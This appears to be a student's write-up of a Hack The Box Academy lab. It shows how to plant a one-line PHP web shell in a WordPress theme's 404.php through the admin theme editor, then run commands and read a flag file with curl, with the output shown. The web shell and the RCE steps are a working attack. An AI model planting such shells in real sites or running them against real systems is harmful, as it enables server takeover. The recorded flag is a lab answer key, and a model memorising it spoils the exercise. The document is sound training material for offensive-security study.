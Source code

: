 ```yaml
---
sticker: emoji//1f43c
---
```

## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![image](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![image](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

```shell-session
smoothment@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

# Question
---
![](../images/Pasted%20image%2020250220134711.png)

Let's save the file with these contents:

```php
<?php

system($_GET['cmd']);
```

Now, let's edit the theme and upload the shell:

![](../images/Pasted%20image%2020250220135856.png)

Once we've edit the `404.php` file, let's save it, and use curl:

```
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)

```


We can now read the contents under `/home/wp-user/flag.txt`:

```
curl -X GET "http://94.237.53.112:46761/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"

HTB{rc3_By_d3s1gn}
```

Flag is:

```
HTB{rc3_By_d3s1gn}
```
